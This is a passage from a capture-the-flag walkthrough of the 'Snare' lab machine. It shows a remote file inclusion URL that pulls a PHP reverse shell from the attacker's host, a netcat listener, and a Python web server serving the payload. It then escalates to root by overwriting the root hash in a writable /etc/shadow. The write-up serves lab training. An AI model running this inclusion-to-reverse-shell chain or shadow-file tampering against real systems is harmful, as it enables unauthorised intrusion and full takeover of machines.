 Link:http://10.150.150.18/index.php?page=http://10.66.67.154/shell

Ensure you set your netcat listener before running your reverse shell

>rlwrap nc -nvlp 1234

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PwnTillDawn/snare]
└─$ gedit shell.php
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PwnTillDawn/snare]
└─$ file shell.php 
shell.php: PHP script, ASCII text
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PwnTillDawn/snare]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.150.150.18 - - [05/Mar/2023 11:02:14] "GET /shell.php HTTP/1.0" 200 -
```
Back to our listener

![image](https://user-images.githubusercontent.com/67879936/222953945-02b02b9f-4a96-415b-a1db-4899868b1019.png)

cool, we got a shell back to our machine as user  ```www-data```. The first flag is in _/home/snare_ directory

![image](https://user-images.githubusercontent.com/67879936/222954218-ab7a8d2a-bf99-45a8-9c99-20a9b3a80ba7.png)

Now, lets go ahead and escalate our privileges




<h2>Privilege Escalation</h2>

I ran linpeas on the target's machine

![image](https://user-images.githubusercontent.com/67879936/222954750-47496b56-55a4-4b4f-bed8-31dcf8b131da.png)

cool, from our scan we can see that ```/etc/shadow``` file is writable. Now lets go ahead and modify the /etc/shadow file

![image](https://user-images.githubusercontent.com/67879936/222954843-b6891a89-42de-4e32-8b8d-1ea234669e13.png)

We'll be replacing the highlighted part with the password we'll generate using openssl.

>command:openssl passwd 1234567890

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PwnTillDawn/snare]
└─$ openssl passwd 1234567890
$1$rrF3V8JB$AJ0hBjitFidwtoLWc5R0S/
```
cool, now lets copy and paste this into the ```/etc/shadow``` file

![image](https://user-images.githubusercontent.com/67879936/222955049-f0faf0b0-5b6e-4f1d-b93b-81457817941c.png)

We've successfully changed the root's password. Now lets switch user to ```root``` using password ```1234567890```
